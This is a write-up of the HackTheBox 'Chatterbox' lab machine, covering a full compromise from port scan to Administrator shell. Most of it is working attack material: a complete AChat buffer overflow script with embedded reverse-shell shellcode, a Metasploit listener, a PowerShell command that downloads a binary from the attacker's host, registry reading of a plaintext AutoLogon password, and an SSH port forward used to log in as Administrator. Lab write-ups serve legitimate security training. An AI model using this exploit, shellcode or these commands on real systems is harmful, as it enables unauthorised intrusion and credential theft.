

hackthebox Chatterbox
Released: 27th January 2018 / Pwned: 30th October 2019 - [+] Solved whilst Retired

This box is similar to Kioptrix 1 except there's a few more steps along the way. Not big ones, though.
Summary
• Nmap scan the box to find an open port running vulnerable software
• Exploit that vulnerable software with a windows/shell/reverse_tcp payload and a exploit/multi/handler listener
• Read the registry AutoLogon keys to find a plaintext password
• Transfer plink.exe to the target and use it to port forward port 445 to your attacking system
• Log in as Administrator using psexec.py
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.74
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p <open ports> -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.74
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.74
[...]
PORT STATE SERVICE
9255/tcp open mon
9256/tcp open unknown
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #nmap -p 9255,9256 -T4 -sV -sC -O -oN nmap/tcp-open.txt 10.10.10.74
[...]
PORT STATE SERVICE VERSION
9255/tcp open http AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesnt have a title.
9256/tcp open achat AChat chat system
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
[...]
Analysis:
• 9255/http - A website? But it doesn't respond at all.
• 9256/AChat - A chat client - AChat.
2) searchsploit AChat
AChat, according to the author, is a “simple multi-user chat server/client�.
https://github.com/Avidanborisov/AChat
The commits on the github page are 7 years old, which made me think it's probably vulnerable.
searchsploit for an exploit, and sure enough there's a remote buffer overflow.
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #searchsploit -w achat
----------------------------------------------------------------------
Exploit Title | URL
----------------------------------------------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow | https://www.exploit-db.com/exploits/36025
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit) | https://www.exploit-db.com/exploits/36056
There's both a metasploit module and python script version of the exploit available.
Both of them have their own problems (which also caused me a lot of problems).
Metasploit
The metasploit module produces encoding errors, and no matter what shellcode or encoding I tried I couldn't get past that error.
Python Script
KAhara MAnhara's python script works depending on the payload you use.
• A meterpreter payload - windows/meterpreter/reverse_tcp - dies immediately after the exploit finishes.
• But with a standard cmd shell, the connection stays alive - windows/shell/reverse_tcp.
Pop a shell on the system with KAhara MAnhara's exploit script.
https://www.exploit-db.com/exploits/36025
Gain Access
3) AChat pwn
https://www.exploit-db.com/exploits/36025
2 parts of the code need changing:
• The shellcode
• The target IP
3a) Change target IP
Do the easy one first and change the target IP.
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #nano bof.py
[...]
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
3b) Replace shellcode
The example msfvenom command in the script provides you with a template to generate your own shellcode.
We want a shell, and the only that works consistently (for me, at least), is windows/shell/reverse_tcp.
Generate your shellcode.
(Don't worry about the b's. They're included for compatibility with python3, but don't cause issues in python2 code.)
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.12 LPORT=9001 BufferRegister=EAX -f python -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
[...]
My full exploit script looks like this:
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit
import socket
import sys, time
# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.12 LPORT=9001 BufferRegister=EAX -f python -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
# Payload size: 808 bytes
# CHANGE SHELLCODE
buf = b""
buf += b"\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += b"\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += b"\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += b"\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += b"\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += b"\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += b"\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += b"\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += b"\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += b"\x47\x42\x39\x75\x34\x4a\x42\x39\x6c\x6a\x48\x65\x32"
buf += b"\x69\x70\x4b\x50\x6b\x50\x31\x50\x34\x49\x78\x65\x4d"
buf += b"\x61\x57\x50\x32\x44\x34\x4b\x72\x30\x30\x30\x54\x4b"
buf += b"\x30\x52\x7a\x6c\x54\x4b\x62\x32\x4e\x34\x64\x4b\x74"
buf += b"\x32\x4d\x58\x6c\x4f\x46\x57\x6d\x7a\x4b\x76\x50\x31"
buf += b"\x4b\x4f\x54\x6c\x6d\x6c\x6f\x71\x73\x4c\x6c\x42\x4e"
buf += b"\x4c\x6d\x50\x49\x31\x66\x6f\x4a\x6d\x49\x71\x68\x47"
buf += b"\x79\x52\x4c\x32\x6e\x72\x4f\x67\x74\x4b\x50\x52\x4e"
buf += b"\x30\x34\x4b\x6f\x5a\x4d\x6c\x54\x4b\x70\x4c\x4c\x51"
buf += b"\x64\x38\x67\x73\x50\x48\x69\x71\x78\x51\x4e\x71\x54"
buf += b"\x4b\x4e\x79\x6b\x70\x6a\x61\x46\x73\x52\x6b\x4e\x69"
buf += b"\x4d\x48\x79\x53\x4c\x7a\x30\x49\x72\x6b\x4c\x74\x52"
buf += b"\x6b\x79\x71\x79\x46\x50\x31\x4b\x4f\x64\x6c\x69\x31"
buf += b"\x68\x4f\x5a\x6d\x6d\x31\x39\x37\x4f\x48\x77\x70\x61"
buf += b"\x65\x59\x66\x6b\x53\x71\x6d\x6b\x48\x4d\x6b\x73\x4d"
buf += b"\x4c\x64\x61\x65\x38\x64\x4e\x78\x44\x4b\x32\x38\x6b"
buf += b"\x74\x7a\x61\x56\x73\x6f\x76\x34\x4b\x4a\x6c\x70\x4b"
buf += b"\x72\x6b\x50\x58\x4b\x6c\x79\x71\x68\x53\x42\x6b\x4a"
buf += b"\x64\x44\x4b\x49\x71\x76\x70\x64\x49\x4f\x54\x4c\x64"
buf += b"\x4b\x74\x31\x4b\x71\x4b\x31\x51\x51\x49\x71\x4a\x70"
buf += b"\x51\x49\x6f\x39\x50\x71\x4f\x6f\x6f\x50\x5a\x64\x4b"
buf += b"\x4e\x32\x68\x6b\x44\x4d\x31\x4d\x73\x38\x6c\x73\x50"
buf += b"\x32\x79\x70\x49\x70\x50\x68\x43\x47\x43\x43\x4d\x62"
buf += b"\x31\x4f\x51\x44\x53\x38\x30\x4c\x34\x37\x4f\x36\x4c"
buf += b"\x47\x63\x59\x4a\x48\x6b\x4f\x66\x70\x54\x78\x62\x70"
buf += b"\x5a\x61\x59\x70\x4b\x50\x4f\x39\x67\x54\x61\x44\x72"
buf += b"\x30\x53\x38\x6b\x79\x33\x50\x70\x6b\x4b\x50\x4b\x4f"
buf += b"\x6a\x35\x31\x5a\x6b\x5a\x61\x58\x4a\x6a\x4c\x4a\x4a"
buf += b"\x6e\x4c\x4c\x62\x48\x5a\x62\x49\x70\x6c\x63\x6b\x79"
buf += b"\x32\x69\x77\x76\x62\x30\x42\x30\x32\x30\x50\x50\x4d"
buf += b"\x70\x52\x30\x61\x30\x6e\x70\x42\x48\x78\x6a\x6a\x6f"
buf += b"\x67\x6f\x77\x70\x79\x6f\x76\x75\x63\x67\x31\x5a\x5a"
buf += b"\x70\x30\x56\x71\x47\x70\x68\x34\x59\x44\x65\x43\x44"
buf += b"\x33\x31\x59\x6f\x6a\x35\x42\x65\x37\x50\x72\x54\x7a"
buf += b"\x6a\x49\x6f\x50\x4e\x79\x78\x34\x35\x48\x6c\x69\x58"
buf += b"\x32\x47\x69\x70\x4b\x50\x49\x70\x32\x4a\x4b\x50\x70"
buf += b"\x6a\x7a\x64\x62\x36\x62\x37\x73\x38\x6b\x52\x77\x69"
buf += b"\x36\x68\x4f\x6f\x4b\x4f\x4a\x35\x55\x33\x78\x78\x69"
buf += b"\x70\x31\x6e\x6c\x76\x54\x4b\x6e\x56\x31\x5a\x51\x30"
buf += b"\x50\x68\x4d\x30\x4e\x30\x6d\x30\x4b\x50\x42\x36\x52"
buf += b"\x4a\x39\x70\x4f\x78\x6e\x78\x35\x54\x4f\x63\x47\x75"
buf += b"\x4b\x4f\x78\x55\x55\x43\x70\x53\x50\x6a\x39\x70\x31"
buf += b"\x46\x70\x53\x32\x37\x42\x48\x4b\x52\x66\x79\x58\x48"
buf += b"\x71\x4f\x39\x6f\x7a\x35\x45\x33\x4a\x58\x4b\x50\x73"
buf += b"\x4d\x6d\x58\x71\x48\x43\x38\x69\x70\x6f\x50\x6b\x50"
buf += b"\x6d\x30\x4f\x7a\x69\x70\x52\x30\x73\x38\x4a\x6b\x4c"
buf += b"\x6f\x4c\x4f\x30\x30\x6b\x4f\x66\x75\x61\x47\x50\x68"
buf += b"\x70\x75\x32\x4e\x70\x4d\x43\x31\x59\x6f\x48\x55\x4f"
buf += b"\x6e\x61\x4e\x49\x6f\x4c\x4c\x4d\x54\x7a\x6f\x65\x35"
buf += b"\x64\x30\x4b\x4f\x4b\x4f\x49\x6f\x6b\x39\x33\x6b\x59"
buf += b"\x6f\x4b\x4f\x79\x6f\x79\x71\x59\x33\x4f\x39\x35\x76"
buf += b"\x62\x55\x55\x71\x37\x53\x35\x6b\x38\x70\x36\x55\x55"
buf += b"\x52\x4e\x76\x31\x5a\x59\x70\x31\x43\x49\x6f\x67\x65"
buf += b"\x41\x41"
# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256) # CHANGE TARGET IP
fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40"
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"
print "---->{P00F}!"
i=0
while i<len(p):
if i > 172000:
time.sleep(1.0)
sent = sock.sendto(p[i:(i+8192)], server_address)
i += sent
sock.close()
3c) Prep exploit/multi/handler listener
Start metasploit and setup an exploit/multi/handler listener to receive our shell.
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #msfconsole -q
[...]
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.12:9001
3d) Run exploit
Run the exploit!
You should see a callback on your listener.
┌─[root@parrot]─[/ctf/chatterbox/achat]
└──╼ #python bof-reversecmd.py
---->{P00F}
[*] Started reverse TCP handler on 10.10.14.12:9001
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.10.10.74
[*] Command shell session 3 opened (10.10.14.12:9001 -> 10.10.10.74:49159) at 2019-10-30 14:50:03 +0000
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
3e) Upgrade to meterpreter
Meterpreter makes me feel more secure about my shells on windows boxes, so I upgraded to one.
Background the current session with Ctrl+Z.
C:\Windows\system32>^Z
Background session 3? [y/N] y
Upgrade the session you just backgrounded with sessions -u.
The process usually hangs at the [*] Stopping exploit/multi/handler stage, be a little patient, and then try inputting a metasploit command.
Connect to your newly upgraded session with sessions -i.
msf5 exploit(multi/handler) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3]
[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.12:4433
msf5 exploit(multi/handler) >
[*] Sending stage (180291 bytes) to 10.10.10.74
[*] Meterpreter session 4 opened (10.10.14.12:4433 -> 10.10.10.74:49160) at 2019-10-30 14:50:24 +0000
[*] Stopping exploit/multi/handler
sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
3 shell x86/windows 10.10.14.12:9001 -> 10.10.10.74:49159 (10.10.10.74)
4 meterpreter x86/windows CHATTERBOX\Alfred @ CHATTERBOX 10.10.14.12:4433 -> 10.10.10.74:49160 (10.10.10.74)
msf5 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...
meterpreter >
3f) Grab user.txt
Move into a shell and grab user.txt.
meterpreter > shell
C:\>cd Users\Alfred\Desktop
cd Users\Alfred\Desktop
C:\Users\Alfred\Desktop>type user.txt
type user.txt
72290246dfaedb1e3e3ac9d6fb306334
Priv-Esc to Administrator
4) Cleartext Password in Winlogon Registry Entry
Check for cleartext passwords in Windows' AutoLogon registry entry (the password is stored so that the system can log in automtically after boot)
C:\Users\Alfred\Desktop>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
[...]
DisableCAD REG_DWORD 0x1
scremoveoption REG_SZ 0
ShutdownFlags REG_DWORD 0x2b
DefaultDomainName REG_SZ
DefaultUserName REG_SZ Alfred
AutoAdminLogon REG_SZ 1
DefaultPassword REG_SZ Welcome1!
We've found a password - Welcome1!.
I want to test this passowrd with Administrator, but in Windows it's a little more difficult to priv-esc using credentials.
Check the active connections on Chatterbox, and you'll see that 445 is listening locally.
C:\Users\Alfred\Desktop>netstat -ano
Active Connections
Proto Local Address Foreign Address State PID
TCP 0.0.0.0:135 0.0.0.0:0 LISTENING 736
TCP 0.0.0.0:445 0.0.0.0:0 LISTENING 4
[...]
If we port forward port 445 out to our attacking machine, we can use it to log in using winexe or psexec.py.
5) 445 Port Forward
To port forward, I used plink.exe.
5a) Transfer plink.exe to target
Copy plink.exe to your working directory and serve it to the target machine.
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #locate plink.exe
/usr/share/windows-resources/binaries/plink.exe
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #cp /usr/share/windows-resources/binaries/plink.exe .
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
Download it to Alfred's desktop with powershell.
C:\Windows\system32>cd C:\Users\Alfred\Desktop
C:\Users\Alfred\Desktop>powershell -c "(New-Object Net.webClient).downloadFile('http://10.10.14.12:8000/plink.exe', 'plink.exe')"
5b) Prep for port forward
You don't want to create the ssh tunnel over root to your attacking system, that's a bad idea.
However, for the port forward to open successfully, it'll need be done via a user with root permissions.
Create a new user with a password on your attacking box.
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #useradd bob
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #passwd bob
New password: heythere
Retype new password: heythere
passwd: password updated successfully
Open /etc/passwd.
Edit bob's UID and GID to 0 (root), and change his shell to /bin/false (so that this new root user can't execute commands).
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #nano /etc/passwd
[...]
bob:x:0:0::/home/bob:/bin/false
You need to allow for root login over ssh so that your new user can log in, so modify your sshd_config file and set PermitRootLogin to yes.
Restart the ssh service to have the change come into effect (or start the service if it's not already running).
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #nano /etc/ssh/sshd_config
[...]
PermitRootLogin yes
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #service ssh restart
At this point, we're ready to port forward port 445 to our attacking system.
5c) Forward port 445
plink.exe will cause your shell to hang, so we want to run the command in the background.
START /B runs this command in the background (it's the closest equivalent of & in linux)
-N tells plink not to start a shell after connecting to the system.
C:\Users\Alfred\Desktop>START /B plink.exe -l bob -pw heythere -R 445:127.0.0.1:445 10.10.14.12 -N
You should now see a 445 listening your attacking host.
┌─[root@parrot]─[/ctf/chatterbox]
└──╼ #netstat -panut | grep 445
tcp 0 0 127.0.0.1:445 0.0.0.0:* LISTEN 89983/sshd: bob@pts
tcp6 0 0 ::1:445 :::* LISTEN 89983/sshd: bob@pts
If you don't, just try the port forward again, and double check your user setup.
If you really can't get it to work, plink to your system as root (but this a pretty unsafe thing to do, avoid if you can).
6) Login as Administrator
With port 445 open, we can use either winexe or psexec.py to login to the system.
psexec.py
psexec.py will give you an NT AUTHORITY/SYSTEM shell, but you'll be unable to read root.txt because of the permissions on the file.
winexe
Instead, use winexe, which will net you a CHATTERBOX/Administrator shell.
Here you can read root.txt.
┌─[root@parrot]─[/ctf/chatterbox/serve]
└──╼ #winexe -U Administrator //127.0.0.1 "cmd.exe"
Enter password: Welcome1!
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
chatterbox\administrator
C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
type root.txt
a673d1b1fa95...